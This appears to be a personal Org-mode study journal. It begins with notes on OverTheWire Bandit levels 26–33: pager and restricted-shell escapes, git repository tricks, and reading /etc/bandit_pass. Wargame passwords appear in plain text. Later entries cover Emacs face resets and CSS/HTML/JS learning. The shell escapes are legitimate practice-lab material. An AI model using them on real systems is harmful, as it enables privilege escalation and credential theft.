ssh {connection stuff} ls

ssh {...} /usr/bin/showtext ls.

But /usr/bin/showtext does not deal with arguments in any way.
So I don't see how this could help me.


more accepts commands like vi

in vi, they come via stderr


this works for vi:

https://vi.stackexchange.com/a/44475
vim - <<< "Hello, World!" 2<<< ":w! file.txt | :q"

É pra mandar um Ctrl+Z enquanto o ~more~ ainda tá rodando.
Isso vai me dar o shell que o invocou.
Short-lived program
Difícil na mão.
Usar um programa: expect.
Precisa de um script.

[[file:landit26.expect][bandit26.expect]] ≡

#+begin_src expect
#!/usr/bin/expect -f
# bandit26-hit.exp — spawn ssh and immediately send a control byte, then hand control to you.

# === Configuration: change these to match your local SSH command ===
set timeout 10
set ssh_cmd {ssh -t -p 2220 -l bandit26 -i ~/.ssh/id_rsa_overthewire.org-bandit26 bandit.labs.overthewire.org}

# === Control character to send ===
# \032 is Ctrl+Z (ASCII SUB). Change to \003 for Ctrl+C, etc.
set ctrl_byte "\003"

# Spawn the SSH client
spawn -noecho {*}$ssh_cmd

# Option 1: wait for any data from the remote side, then immediately send the control char
# (this triggers the key while the pager is running)
expect {
    -re {.+} { send -- $ctrl_byte }
    timeout { send -- $ctrl_byte }   ;# fallback: send anyway if nothing seen within timeout
}

# Hand control to your terminal interactively
interact
#+end_src

#+begin_src shell
chmod +x bandit26.expect
#+end_src

#+RESULTS:



janela pequena força modo interativo do more

v abre o vim

rodar ocmandos no vim

rodei um open do pass if

:e /etc/band.../band..26

s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ

Essa senha deixa logar, mas cai no mesmo problema.

:set shell=/bin/bash

:shell

upsNCc7vzaRDx6oZC6GiR6ERwe1MowGB
*** 27 -> 28

git repo at

ssh://bandit27-git@localhost/home/bandit27-git/repo
via the port 2220

i have to clone this repo

**** clone logged in the server

from the manpage, the format for ssh urls is

#+begin_quote
ssh://[user@]host.xz[:port]/~[user]/path/to/repo.git/
#+end_quote

translating to the address:

git clone ssh://bandit27-git@localhost:2220/home/bandit27-git/repo

didn't allow the clone (no write permission)

going local

**** clone from my local machine

git clone ssh://bandit27-git@bandit.labs.overthewire.org:2220/home/bandit27-git/repo

password was inside README

Yz9IpL0sBcCeuG7m9uQFt8ZNpS4HZRcN
*** 28 -> 29

ssh://bandit28-git@localhost/home/bandit28-git/repo via the port 2220.

git clone ssh://bandit28-git@bandit.labs.overthewire.org:2220/home/bandit28-git/repo

tava no git log

sshpass -p 4pT1t5DENaYuqnqvadYs1oE4QLCdjmJ7 ssh bandit.labs.overthewire.org -p 2220 -l bandit29
*** 29 -> 30
:PROPERTIES:
:header-args: :session *29*
:END:

**** Instructions

#+begin_quote
Level Goal

There is a git repository at ssh://bandit29-git@localhost/home/bandit29-git/repo via the port 2220.
The password for the user bandit29-git is the same as for the user bandit29.

Clone the repository and find the password for the next level.
Commands you may need to solve this level

git
#+end_quote

**** Clone the repository

Basic clone structure.

#+begin_src shell
export SERVER=bandit29-git@bandit.labs.overthewire.org
export PORT=2220
export REMOTE_FOLDER=/home/bandit29-git/repo
export REMOTE_REPO=ssh://$SERVER:$PORT$REMOTE_FOLDER
export LOCAL_FOLDER=$HOME/hack/overthewire.org/bandit29-git-repo
export REPO=$LOCAL_FOLDER
#+end_src

Essential in this problem: mirror the remote repository.
This way we get all the branches.
The password turned out to be on a branch ~dev~, that was not fetched with the normal ~git clone~ command.

#+begin_src shell
export GIT_FLAGS="--mirror"
echo git clone $GIT_FLAGS $REMOTE_REPO $REPO
#+end_src

#+RESULTS:
: git clone --mirror ssh://bandit29-git@bandit.labs.overthewire.org:2220/home/bandit29-git/repo /home/rafa/hack/overthewire.org/bandit29-git-repo

qp30ex3VLz5MDG1n91YowTv4Q8l7CDZL
*** Bandit Level 30 → Level 31

#+begin_quote
Level Goal

There is a git repository at ssh://bandit30-git@localhost/home/bandit30-git/repo via the port 2220.
The password for the user bandit30-git is the same as for the user bandit30.

Clone the repository and find the password for the next level.
Commands you may need to solve this level

git
#+end_quote

#+begin_src shell
export BANDIT=bandit30-git
export URL=${BANDIT}@bandit.labs.overthewire.org
export PORT=2220
export REMOTE_FOLDER=/home/${BANDIT}/repo
export REMOTE_REPO=ssh://$URL:$PORT$REMOTE_FOLDER
export LOCAL_FOLDER=$HOME/hack/overthewire.org/${BANDIT}-repo
export REPO=$LOCAL_FOLDER
export GIT_FLAGS="--mirror"
echo git clone $GIT_FLAGS $REMOTE_REPO $REPO
#+end_src

#+RESULTS:
: git clone --mirror ssh://bandit30-git@bandit.labs.overthewire.org:2220/home/bandit30-git/repo /home/rafa/hack/overthewire.org/bandit30-git-repo

There was a ~secret~ tag.

Fetched it.
Couldn't ~checkout~ to it, nor hard reset to it.
Then I looked inside it.

#+begin_example
(base) rafa@bach:~/hack/overthewire.org/bandit30-git-repo$ git cat-file -p secret
fb5S2xb7bRyFmAvQYQGEqsbhVyJqhnDy
#+end_example

fb5S2xb7bRyFmAvQYQGEqsbhVyJqhnDy
*** Bandit Level 31 → Level 32

#+begin_quote
Level Goal

There is a git repository at ssh://bandit31-git@localhost/home/bandit31-git/repo via the port 2220.
The password for the user bandit31-git is the same as for the user bandit31.

Clone the repository and find the password for the next level.
Commands you may need to solve this level

git
#+end_quote

#+begin_src shell
export BANDIT=bandit31-git
export URL=${BANDIT}@bandit.labs.overthewire.org
export PORT=2220
export REMOTE_FOLDER=/home/${BANDIT}/repo
export REMOTE_REPO=ssh://$URL:$PORT$REMOTE_FOLDER
export LOCAL_FOLDER=$HOME/hack/overthewire.org/${BANDIT}-repo-mirror
export REPO=$LOCAL_FOLDER
export GIT_FLAGS="--mirror"
echo git clone $GIT_FLAGS $REMOTE_REPO $REPO
#+end_src

#+RESULTS:
: git clone --mirror ssh://bandit31-git@bandit.labs.overthewire.org:2220/home/bandit31-git/repo /home/rafa/hack/overthewire.org/bandit31-git-repo-mirror

#+begin_src shell
PASSWORD=fb5S2xb7bRyFmAvQYQGEqsbhVyJqhnDy
URL=bandit.labs.overthewire.org
PORT=2220
BANDIT=bandit31
echo sshpass -p ${PASSWORD} ssh $URL -p $PORT -l $BANDIT
#+end_src

#+RESULTS:
: sshpass -p fb5S2xb7bRyFmAvQYQGEqsbhVyJqhnDy ssh bandit.labs.overthewire.org -p 2220 -l bandit31

**** Investigating bandit31's home folder

#+begin_example
bandit31@bandit:~$ ll
total 24
drwxr-xr-x   2 root root 4096 Aug 15 13:16 ./
drwxr-xr-x 150 root root 4096 Aug 15 13:18 ../
-rw-r--r--   1 root root  220 Mar 31  2024 .bash_logout
-rw-r--r--   1 root root 3851 Aug 15 13:09 .bashrc
-rwxr-xr-x   1 root root   59 Aug 15 13:16 .gitconfig*
-rw-r--r--   1 root root  807 Mar 31  2024 .profile
bandit31@bandit:~$ cat .gitconfig 
[user]
        email = bandit31@overthewire.org
        name = bandit31
#+end_example

#+begin_src shell
git ls-remote
#+end_src

#+begin_example
(base) rafa@bach:~/hack/overthewire.org/bandit31-git-repo-mirror$ git ls-remote --heads --tags --refs --symref
                         _                     _ _ _   
                        | |__   __ _ _ __   __| (_) |_ 
                        | '_ \ / _` | '_ \ / _` | | __|
                        | |_) | (_| | | | | (_| | | |_ 
                        |_.__/ \__,_|_| |_|\__,_|_|\__|
                                                       

                      This is an OverTheWire game server. 
            More information on http://www.overthewire.org/wargames

backend: gibson-1
bandit31-git@bandit.labs.overthewire.org's password: 
From ssh://bandit31-git@bandit.labs.overthewire.org:2220/home/bandit31-git/repo
508f78be4568c9cf050249a441800ad36c1fe5bd        refs/heads/master
#+end_example

**** I have to push a file to the remote repository

#+begin_example
2 files changed, 8 insertions(+)
.gitignore | 1 +
README.md  | 7 +++++++

new file   .gitignore
@@ -0,0 +1 @@
+*.txt
new file   README.md
@@ -0,0 +1,7 @@
+This time your task is to push a file to the remote repository.
+
+Details:
+    File name: key.txt
+    Content: 'May I come in?'
+    Branch: master
+
#+end_example

I want to
1. Modify .gitignore and remove ~*.txt~


Clone without mirror.

#+begin_src shell
export BANDIT=bandit31-git
export URL=${BANDIT}@bandit.labs.overthewire.org
export PORT=2220
export REMOTE_FOLDER=/home/${BANDIT}/repo
export REMOTE_REPO=ssh://$URL:$PORT$REMOTE_FOLDER
export LOCAL_FOLDER=$HOME/hack/overthewire.org/${BANDIT}-repo
export REPO=$LOCAL_FOLDER
echo git clone $GIT_FLAGS $REMOTE_REPO $REPO
#+end_src

#+RESULTS:
: git clone ssh://bandit31-git@bandit.labs.overthewire.org:2220/home/bandit31-git/repo /home/rafa/hack/overthewire.org/bandit31-git-repo

I need to add the user info I found on 31's home folder .gitconfig:
Add it to the repo's .git/config file.

#+begin_src gitconfig /home/rafa/hack/overthewire.org/bandit31-git-repo/.git/.gitconfig
[user]
        email = bandit31@overthewire.org
        name = bandit31
#+end_src

#+begin_example
  1 git … push -v origin master\:refs/heads/master
Pushing to ssh://bandit.labs.overthewire.org:2220/home/bandit31-git/repo
                         _                     _ _ _   
                        | |__   __ _ _ __   __| (_) |_ 
                        | '_ \ / _` | '_ \ / _` | | __|
                        | |_) | (_| | | | | (_| | | |_ 
                        |_.__/ \__,_|_| |_|\__,_|_|\__|
                                                       

                      This is an OverTheWire game server. 
            More information on http://www.overthewire.org/wargames

backend: gibson-1
bandit31-git@bandit.labs.overthewire.org's password: 
Writing objects: 100% (3/3), 301 bytes | 301.00 KiB/s, done.
Total 3 (delta 0), reused 0 (delta 0), pack-reused 0
remote: ### Attempting to validate files... ####        
To ssh://bandit.labs.overthewire.org:2220/home/bandit31-git/repo
 ! [remote rejected] master -> master (pre-receive hook declined)
error: failed to push some refs to 'ssh://bandit.labs.overthewire.org:2220/home/bandit31-git/repo'
#+end_example

>>>> ! [remote rejected] master -> master (pre-receive hook declined)

What hook is that?
Is it in the folder ~hooks~?
Only sample hooks there.

Is there something on the server?
1. I looked


fb5S2xb7bRyFmAvQYQGEqsbhVyJqhnDy

#+begin_example
  1 git … push -v origin master\:refs/heads/master
Pushing to ssh://bandit.labs.overthewire.org:2220/home/bandit31-git/repo
                         _                     _ _ _   
                        | |__   __ _ _ __   __| (_) |_ 
                        | '_ \ / _` | '_ \ / _` | | __|
                        | |_) | (_| | | | | (_| | | |_ 
                        |_.__/ \__,_|_| |_|\__,_|_|\__|
                                                       

                      This is an OverTheWire game server. 
            More information on http://www.overthewire.org/wargames

backend: gibson-1
bandit31-git@bandit.labs.overthewire.org's password: 
Writing objects: 100% (4/4), 361 bytes | 361.00 KiB/s, done.
Total 4 (delta 0), reused 0 (delta 0), pack-reused 0
remote: ### Attempting to validate files... ####        
remote: 
remote: .oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.        
remote: 
remote: Well done! Here is the password for the next level:        
remote: 3O9RfhqyAlVBEZpVb6LYStshZoqoSx5K         
remote: 
remote: .oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.        
remote: 
To ssh://bandit.labs.overthewire.org:2220/home/bandit31-git/repo
 ! [remote rejected] master -> master (pre-receive hook declined)
error: failed to push some refs to 'ssh://bandit.labs.overthewire.org:2220/home/bandit31-git/repo'
#+end_example

3O9RfhqyAlVBEZpVb6LYStshZoqoSx5K
*** Bandit Level 32 → Level 33

#+begin_quote
Level Goal

After all this git stuff, it’s time for another escape. Good luck!
Commands you may need to solve this level

sh, man
#+end_quote

#+begin_src shell
PASSWORD=3O9RfhqyAlVBEZpVb6LYStshZoqoSx5K
URL=bandit.labs.overthewire.org
PORT=2220
BANDIT=bandit32
echo sshpass -p ${PASSWORD} ssh $URL -p $PORT -l $BANDIT
#+end_src

#+RESULTS:
: sshpass -p 3O9RfhqyAlVBEZpVb6LYStshZoqoSx5K ssh bandit.labs.overthewire.org -p 2220 -l bandit32

**** Control keys

| Key | Result                   |
|-----+--------------------------|
| C-D | quit                     |
| C-Z | no echo, but do not quit |
|     |                          |

#+begin_example

>> a
sh: 1: A: Permission denied
>> \
>> $
sh: 1: $: Permission denied
>> 
>> !
sh: 2: Syntax error: newline unexpected
>> !
sh: 2: Syntax error: newline unexpected
>> " 
sh: 2: Syntax error: Unterminated quoted string
>> "bash"
sh: 1: BASH: Permission denied

#+end_example

**** UPPERCASE SHELL: environment variables?

**** The uppershell executable has setgid for bandit33

#+begin_example
bandit31@bandit:/home/bandit32$ ll
total 36
drwxr-xr-x   2 root     root      4096 Aug 15 13:16 ./
drwxr-xr-x 150 root     root      4096 Aug 15 13:18 ../
-rw-r--r--   1 root     root       220 Mar 31  2024 .bash_logout
-rw-r--r--   1 root     root      3851 Aug 15 13:09 .bashrc
-rw-r--r--   1 root     root       807 Mar 31  2024 .profile
-rwsr-x---   1 bandit33 bandit32 15140 Aug 15 13:16 uppershell*
               ^^^^^^^^
#+end_example

**** manpage sh: ${0} gives name of shell

It was executing the expansions.
It executed that, giving me an instance of ~sh~.

#+begin_example
WELCOME TO THE UPPERCASE SHELL
>> ${$}
sh: 1: 625083: Permission denied
>> ${0}
$ cat /etc/bandit_pass/bandit33
tQdtbs5D5i2vJwkO8mEyYEyTL8izoeJ0
#+end_example

tQdtbs5D5i2vJwkO8mEyYEyTL8izoeJ0
*** Bandit Level 33 → Level 34

#+begin_quote
At this moment, level 34 does not exist yet.
#+end_quote

* [2025-10-12 Sun]

Today I used a good part of the sunny Sunday to do something I have been wanting to do for years: reset Org Mode font colors; it is /too/ colorful!
I get distracted just by looking at the screen, and trying to figure out the rules for the colors, and the semantics, etc; not very focus-inducing!

This is the result.

** Introduction

This has some face-related functions and settings, including the configuration of the default face for Emacs.

[[file:~/elisp/faces.el][~/elisp/faces.el]] ≡

#+begin_src elisp
<<define the functions>>
<<reset the faces>>
(face-set-after-frame-default (selected-frame))
#+end_src

** Faces

*** ~default~

Reset face: all settings to default.

~<<reset the faces>> +≡~

#+begin_src elisp :noweb-ref reset the faces
(face-reset 'default)
#+end_src

*** Org

Go nuclear: Reset all Org faces.

~<<reset the faces>> +≡~

#+begin_src elisp :noweb-ref reset the faces
<<push all known Org faces into a list>>
<<reset all Org faces from that list>>
#+end_src

~<<push all known Org faces into a list>> +≡~

#+begin_src elisp :noweb-ref push all known Org faces into a list
;; Collect all org faces
(setq org-faces (seq-filter
                 (lambda (face)
                   (string-prefix-p "org-" (symbol-name face)))
                 (face-list)))
#+end_src

~<<reset all Org faces from that list>> +≡~

#+begin_src elisp :noweb-ref reset all Org faces from that list
(face-reset-list org-faces)
#+end_src

** Functions

~<<define the functions>> +≡~

#+begin_src elisp :noweb-ref define the functions
<<define a function to reset a face>>
<<define a function to reset a list of faces>>
#+end_src

*** ~face-reset~

~<<define a function to reset a face>> +≡~

#+begin_src elisp :noweb-ref define a function to reset a face
(defun face-reset (face)
  "Sets FACE attributes to absolute and average values."
  (interactive)
  (set-face-attribute
   face
   <<FRAME>>
   <<&rest ARGS>>))
#+end_src

**** Frame

We set it to ~t~, this way new frames honor it.

#+begin_quote
If FRAME is a frame, set the FACE’s attributes only for that frame.  If
FRAME is nil, set attribute values for all existing frames, as well as
the default for new frames.  If FRAME is t, change the default values
of attributes for new frames.
#+end_quote

~<<FRAME>> +≡~

#+begin_src elisp :noweb-ref FRAME
t
#+end_src

**** ~family~ and ~foundry~

~<<&rest ARGS>> +≡~

#+begin_src elisp  :noweb-ref &rest ARGS
:family "Lat15Fixed16"
:foundry "PfEd"
#+end_src

**** ~width~ and ~height~

#+begin_quote
Note that for the ‘default’ face, you must specify an absolute height (since there is nothing for it to be relative to).
#+end_quote

This height was being used before I started working.
I am not sure what it means, or how it is calculated.

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS
:width 'normal
:height 128
#+end_src

**** ~weight~ and ~slant~

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS
:weight 'medium
:slant 'normal
#+end_src

**** ~foreground~ and ~background~

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS
:foreground "dark gray"
:background "black"
#+end_src

**** Decorations

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS
:underline nil
:overline nil
:strike-through nil
:box nil
#+end_src

**** ~inverse-video~

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS
:inverse-video nil
#+end_src

**** ~stipple~

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS
:stipple nil
#+end_src

**** ~extend~

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS
:extend nil
#+end_src

**** ~font~

Don't see the need for this.

~<<&rest ARGS>> +≡~

**** ~inherit~

#+begin_src elisp :noweb-ref &rest ARGS
:inherit nil
#+end_src

*** ~face-reset-list~

~<<define a function to reset a list of faces>> +≡~

#+begin_src elisp :noweb-ref define a function to reset a list of faces
(defun face-reset-list (face-list)
  "Apply function `face-reset' to a list of faces."
  (interactive)
  ;; Lists of faces usually are automatically obtained by taking all symbols
  ;; from a context with "face" in their names.  But surprisingly this is not an
  ;; infallible approach.  Then we ignore any errors here.  This is not bad,
  ;; because we only ignore---and do not-reset---the ones that are _not_ faces.
  (ignore-errors
    (dolist (face face-list)
      (face-reset face))))
#+end_src


** Seinfeld Checkmark

[[file:images/2025-10-12_seinfeld.jpeg]]

* [2025-10-11 Sat]

Productive day.
But only because learned about my limitations while struggling to get results.
Learned a lot!

** Seinfeld Checkmark

[[file:images/2025-10-11_seinfeld.jpeg]]

* [2025-10-10 Fri]

Well, I'm pursuing some CTF goals.
Totally derailed.
But, I am investigating my core reasons to program.
The burn out happened because of lack of this.

Nice.

** Seinfeld Checkmark

[[file:images/2025-10-10_seinfeld.jpeg]]

* [2025-10-09 Thu]

** Back to Odin

Now that I had a taste of the "ground truth" (official specs), I feel more confident about navigating the uncertainties and vagueness of the world.
Also, Wikipedia has a lot of good resources on alternatives to The Box Model...
I probably need to improve my Google-fu.

I feel that I tend to underestimate CSS.
I've been thinking about this.
Webdev is HTML, CSS, and JS.
Instinctively, I think: JS is harder than HTML, that is harder than CSS.
But this is not the case---at least for me.
CSS has lots of intellectual demands:
- The official docs are declarative: they don't teach how to implement, but what they want as a result (from the browser implementers).
  This removes a lot of pressure that is usually present when defining a language (like JS and even HTML).
  The documentation is more vague, there are lots of exceptions.
  And what trips me up the most is the terminology.
  It all started in CSS1 with
  - For the background: ~background-color~
  - For the foreground: ~color~ (!)


This list goes on and on.
I belive it stems from the fact that the people involved with the development of CSS have a different mindset than what I'm used to when dealing with tech specs.
And this is probably good, because they are also developing an aspect that is normally difficult for programmers: make things look good.
And I've seen what CSS can do, and it's great.
Also, I've seen the latest developments in layout---this is what made me go to the specs, I couldn't believe The Box Model could be a thing they would settle on---and thank God they didn't!
During this journey I learned a lot about realistic expectations on webdev and stuff---including my own capabilities and limits.
The most important thing was to see that when I go slowly on a CSS exercise things tend to flow better, and quicker.
My initial impulse is to underestimate and get frustrated with the delay, lack of info... when I could just stop, take a deep breath, and dedicate some time to think.

Another curious development: my inner artist is coming out, sniffing the territory, and I catch myself sometimes thinking about ideas for websites.
This is cool!

** Seinfeld Checkmark

[[file:images/2025-10-09_seinfeld.jpeg]]

* [2025-10-08 Wed]

** CSS1 Standard

See how things evolved is good when there is so much confusion in the terminology.

The margin collapse from the Box Model makes sense for typography, not graphics layout.
It was introduced at a time where you /maybe/ would add a picture to a page; a time where the page was thought as a /book/ or /newspaper/ page (but without ads, comic strips or other elements demanding a more sophisticated and precise layout engine).

It was also the /first/ major attempt at adding styles to a page.
/Style/ at that time was mainly choosing the text font, and color; background color or image.
And back then, many users had only access to text terminals, so the important part of the page for them was mainly the text, and its structure.

I keep going back and forth from the specs to ChatGPT.
ChatGPT is great to teach me about the historical context.
It also makes great parallels with newer versions, points out things that have changed over time.
And it agrees with me about the quirks---but also often gives plausible motivations at the time for the quirks.

I just found out that modern alternatives like Flex and Grid do not collapse margins.
Thank God for them.
But this is not screamed all over the web tutorials as I believe it should be.
Advices like:

#+begin_quote
Avoid using the box model for layout, use the flex model instead.
#+end_quote

Just finished reading it.
Very nice.
Lots of quirks.

The one thing I really think would be useful is: when setting a property valeu, being able to reference the /current/ value.
For instance: If I want to make the first letter of a paragraph twice as big, I could say something like:

#+begin_src css
p::first-letter {
  font-size: calc(current * 2);  /* or  '2*'  */
}
#+end_src

Or if I wanted it to be 10 pixels bigger:

#+begin_src css
p::first-letter {
  font-size: calc(current + 10px);
}
#+end_src

** CSS2.1 Standard

It mentions "webmasters" LOL.

Starts talking about JavaScript.

** Seinfeld Checkmark

[[file:images/2025-10-08_seinfeld.jpeg]]

* [2025-10-07 Tue]

** CSS has some obscurities

The first one just appeared: The Box Model.
I'll try and be systematic here.

Reading CSS Standar Box Model.
https://www.w3.org/TR/css-box-3/

Again, much better.
Tutorials and books are hesitant about terminology and analogies.
Better go to the source.

First small joy: yes, everything in CSS is either a *box* or a *text sequence*.
CSS has its own tree, the *box tree*, derived from the DOM.

[[file:pages/css2.1-margins-padding-border.html][pages/css2.1-margins-padding-border.html]] ≡

#+begin_src html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
<HTML>
  <HEAD>
    <TITLE>Examples of margins, padding, and borders</TITLE>
    <STYLE type="text/css">
    </STYLE>
    <link rel="stylesheet" href="css2.1-margins-padding-border-experiments.css">
  </HEAD>
  <BODY>
    
    <div class="ul">
      <UL>
        <div class="li">
          <LI >First element of list
        </div>
        <div class="li">
          <LI class="withborder">Second element of list is a bit longer to illustrate wrapping.
        </div>
      </UL>
      <p class="undecided-p">Is this a paragraph or a list item?</p>
    </div>
  </BODY>
</HTML>
#+end_src

** I started reading CSS1 specs

Very enlightening.
Using ChatGPT to answer questions; usualy involve historical quirks.

** 1h coding

Today I really spent most of the time on the specs.
I also did lots of free explorations on the Dev Tools in Firefox, with the help of ChatGPT.
I'm counting those as coding; all in all, I feel today's work granted me that.

** Seinfeld Checkmark

[[file:images/2025-10-07_seinfeld.jpeg]]

* [2025-10-06 Mon]

** Odin Foundations Course

Started reding the theory for The Box Model.

Went do MDN and ChatGPT for clarifications.

Downloading some CSS books for reference.

Just read some chapters of some CSS books.
Nice to see they have much more structure than several online resources---editorial pressure, probably.

Now, I need to *practice*.

** Burn out WARNING

Today I studied too much, didn't go busking, and didn't properly rest.

I'll work on my 1h coding now, and then rest.

** 1h of Hack!

I'll experiment with LP.
Two code blocks: HTML and JS.

First we tangle.

[[file:~/dev/js-ChatGPT/2025-10-06.html][~/dev/js-ChatGPT/2025-10-06.html]] ≡

#+begin_src html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>JS with ChatGPT</title>
  </head>

  <body>
    <dl>
      <<html>>
    </dl>

    <script>
      <<js>>
    </script>
  </body>
</html>
#+end_src

*** Minute 40–50: Keyboard events
Now the task:
#+begin_quote
Minute 40–50: Keyboard events
16. Add a <p> that shows which key the user presses (keydown event).
Learn: event.key.
#+end_quote

~<<html>> +≡~

#+begin_src html :noweb-ref html
<dt>Keyboard Events</dt>
<dd><p id="pKeyPress"></p></dd>
#+end_src

~event.key~

Need to add an event listener.
Will add it to ~window~.

~<<js>> +≡~

#+begin_src js :noweb-ref js
const pKeyPress = document.getElementById("pKeyPress");
window.addEventListener("keydown", (e) => {
    pKeyPress.textContent = e.key;
})
#+end_src

*** Minute 50–60: Mini-project — Guess the Number

#+begin_quote
Minute 50–60: Mini-project — Guess the Number
17. Build a simple game:

Generate a random number between 1 and 10.

Add an <input> and a button.

User guesses the number. Show “Too high”, “Too low”, or “Correct!”.
Learn: combining input, random, conditionals, and DOM updates.
#+end_quote

Add the controls.
Will use a ~dl~.

~<<html>> +≡~

#+begin_src html :noweb-ref html
<dt>Guess the number</dt>
<dd>Enter a number between 1 and 10</dd>
<dd><input id="inputGuessNumber" type="text"><button id="buttonGuessNumber">Go!</button></dd>
<dd>Result:</dd>
<dd id="ddGuessNumberResult"></dd>
#+end_src

Create a function to choose a random number between 1 and 10.

~<<js>> +≡~

#+begin_src js :noweb-ref js
<<allow user to press Enter instead of clicking the button>>
let number = Math.floor(Math.random() * 10) + 1;
const ddGuessNumberResult = document.getElementById("ddGuessNumberResult");
document.getElementById("buttonGuessNumber")
    .addEventListener("click", () => {
        let guess = Number(document.getElementById("inputGuessNumber").value);
        if (guess < number) {
            ddGuessNumberResult.textContent = "Too low";
        } else {
            if (guess > number) {
                ddGuessNumberResult.textContent = "Too High";
            } else {
                ddGuessNumberResult.textContent = "Correct!";
            }
        }
    });
#+end_src

** Seinfeld Checkmark

[[file:images/2025-10-06_seinfeld.jpeg]]

* [2025-10-05 Sun]

** web.dev HTML Course

Going over the curriculum again, this time specifically to know which *projects* it has.

** ~hr~

Thematic changes.
The Standard says ~section~ and ~hr~ have some "equivalences"---let's experiment with them.

[[file:~/dev/webdev-study/pages/hr.html][~/dev/webdev-study/pages/hr.html]] ≡

#+begin_src html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>&lt;hr&gt;</title>
  </head>

  <body>
    <p>Aliquam erat volutpat.  Nunc eleifend leo vitae magna.  In id erat non orci commodo lobortis.  Proin neque massa, cursus ut, gravida ut, lobortis eget, lacus.  Sed diam.  Praesent fermentum tempor tellus.  Nullam tempus.  Mauris ac felis vel velit tristique imperdiet.  Donec at pede.  Etiam vel neque nec dui dignissim bibendum.  Vivamus id enim.  Phasellus neque orci, porta a, aliquet quis, semper a, massa.  Phasellus purus.  Pellentesque tristique imperdiet tortor.  Nam euismod tellus id erat.</p>

    <p>Nullam eu ante vel est convallis dignissim.  Fusce suscipit, wisi nec facilisis facilisis, est dui fermentum leo, quis tempor ligula erat quis odio.  Nunc porta vulputate tellus.  Nunc rutrum turpis sed pede.  Sed bibendum.  Aliquam posuere.  Nunc aliquet, augue nec adipiscing interdum, lacus tellus malesuada massa, quis varius mi purus non odio.  Pellentesque condimentum, magna ut suscipit hendrerit, ipsum augue ornare nulla, non luctus diam neque sit amet urna.  Curabitur vulputate vestibulum lorem.  Fusce sagittis, libero non molestie mollis, magna orci ultrices dolor, at vulputate neque nulla lacinia eros.  Sed id ligula quis est convallis tempor.  Curabitur lacinia pulvinar nibh.  Nam a sapien.</p>

    <hr>

    <p>Lorem ipsum dolor sit amet, consectetuer adipiscing elit.  Donec hendrerit tempor tellus.  Donec pretium posuere tellus.  Proin quam nisl, tincidunt et, mattis eget, convallis nec, purus.  Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus.  Nulla posuere.  Donec vitae dolor.  Nullam tristique diam non turpis.  Cras placerat accumsan nulla.  Nullam rutrum.  Nam vestibulum accumsan nisl.</p>

    <hr>

    <section>
      <p>Aliquam erat volutpat.  Nunc eleifend leo vitae magna.  In id erat non orci commodo lobortis.  Proin neque massa, cursus ut, gravida ut, lobortis eget, lacus.  Sed diam.  Praesent fermentum tempor tellus.  Nullam tempus.  Mauris ac felis vel velit tristique imperdiet.  Donec at pede.  Etiam vel neque nec dui dignissim bibendum.  Vivamus id enim.  Phasellus neque orci, porta a, aliquet quis, semper a, massa.  Phasellus purus.  Pellentesque tristique imperdiet tortor.  Nam euismod tellus id erat.</p>

      <p>Nullam eu ante vel est convallis dignissim.  Fusce suscipit, wisi nec facilisis facilisis, est dui fermentum leo, quis tempor ligula erat quis odio.  Nunc porta vulputate tellus.  Nunc rutrum turpis sed pede.  Sed bibendum.  Aliquam posuere.  Nunc aliquet, augue nec adipiscing interdum, lacus tellus malesuada massa, quis varius mi purus non odio.  Pellentesque condimentum, magna ut suscipit hendrerit, ipsum augue ornare nulla, non luctus diam neque sit amet urna.  Curabitur vulputate vestibulum lorem.  Fusce sagittis, libero non molestie mollis, magna orci ultrices dolor, at vulputate neque nulla lacinia eros.  Sed id ligula quis est convallis tempor.  Curabitur lacinia pulvinar nibh.  Nam a sapien.</p>
    </section>

    <p>Lorem ipsum dolor sit amet, consectetuer adipiscing elit.  Donec hendrerit tempor tellus.  Donec pretium posuere tellus.  Proin quam nisl, tincidunt et, mattis eget, convallis nec, purus.  Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus.  Nulla posuere.  Donec vitae dolor.  Nullam tristique diam non turpis.  Cras placerat accumsan nulla.  Nullam rutrum.  Nam vestibulum accumsan nisl.</p>
  </body>
</html>
#+end_src

Visually, there's no explicit "equivalence"; maybe we need some CSS for that.

** ~pre~

[[file:pages/pre.html][pages/pre.html]] ≡

#+begin_src html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>&lt;pre&gt;</title>
  </head>

  <body>
    <h1>The <code>&lt;pre&gt; element</code></h1>
    <h2>Just <code>&lt;pre&gt;</code></h2>
    <pre>
      function greet(name) {
        console.log(`Hello, ${name}`);
      }
    </pre>

    <h2><code>&lt;pre&gt;&lt;code&gt;&lt;code&gt;&lt;pre&gt;</code></h2>
    <pre>
      <code>
        function greet(name) {
          console.log(`Hello, ${name}`);
        }
      </code>
    </pre>
  </body>
</html>
#+end_src

Both use monospaced fonts.

** ~kbd~

[[file:pages/kbd.html][pages/kbd.html]] ≡

#+begin_src html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title></title>
  </head>

  <body>
    <pre><samp>You are in an open field west of a big white house with a boarded
front door.
There is a small mailbox here.

></samp> <kbd>open mailbox</kbd>

<samp>Opening the mailbox reveals:
A leaflet.

></samp></pre>
  </body>
</html>
#+end_src

Initial whitespace ("prefixing" w.) matters.

** ~blockquote~

[[file:pages/blockquote.html][pages/blockquote.html]] ≡

#+begin_src html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title></title>
  </head>

  <body>
    <blockquote>
      <p>I contend that we are both atheists. I just believe in one fewer
        god than you do. When you understand why you dismiss all the other
